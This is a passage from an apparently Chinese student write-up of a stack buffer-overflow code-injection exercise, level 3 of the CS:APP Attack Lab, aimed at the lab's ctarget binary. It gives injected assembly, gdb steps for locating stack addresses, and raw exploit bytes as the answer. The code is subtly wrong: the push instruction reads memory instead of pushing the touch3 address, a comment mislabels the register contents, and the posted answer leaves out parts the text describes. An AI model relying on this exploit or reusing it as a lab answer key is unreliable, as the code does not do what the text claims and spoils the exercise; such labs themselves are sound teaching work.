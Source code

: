> - 可以很容易发现，%edi就是cookie的值，%rsi就是sval字符串的地址
>
> - 思路和level大同小异。现在我们来编写注入代码
>
> ```assembly
> movq $0x5561dca8, %rdi #将cookie.txt中的值传到%rdi中
> pushq 0x4018fa #touch3函数的地址
> ret
> ```
>
> - 然后利用gcc将上述注入的代码转为计算机可以执行的指令序列（机器码）
>
> ```bash
> gcc -c exploit-3.s
> objdump -d exploit-3.o > exploit-3.d
> ```

![image-20220507135950440](lab3.assets/image-20220507135950440.png)

> - 为了不让cookie转化为字符串后的地址被覆盖，我们可以这么分配栈帧，如下图所示。这样，字符串便不会被覆盖
> - 将cookie的值转换为ASCII表示，本文中的cookie值是0x59b997fa，转换为ASCII(16进制)表示: 35(5), 39(9), 62(b), 39(9), 39(9), 37(7), 66(f), 61(a)
> - 好了，到这一步我们大概就能知道答案了
>
> ```bash
> gdb ./ctarget
> b getbuf
> r -q
> info r rsp
> ```
>
> ![image-20220507135502216](lab3.assets/image-20220507135502216.png)
>
> - 可以看到原来是0x5561dca0存储了调用者栈帧的返回地址，现在我们将字符串地址存在返回地址的上面，也就是0x5561dca8
> - 接下来我们来看看调用getbuf后的%rsp的值
>
> ```bash
> gdb ./ctarget
> b getbuf
> r -q
> stepi
> info r rsp
> ```
>
> ![image-20220507140612206](lab3.assets/image-20220507140612206.png)
>
> - 所以答案
>
> 48 c7 c7 a8 dc 61 55 ff 
> 34 25 fa 18 40 00 c3 00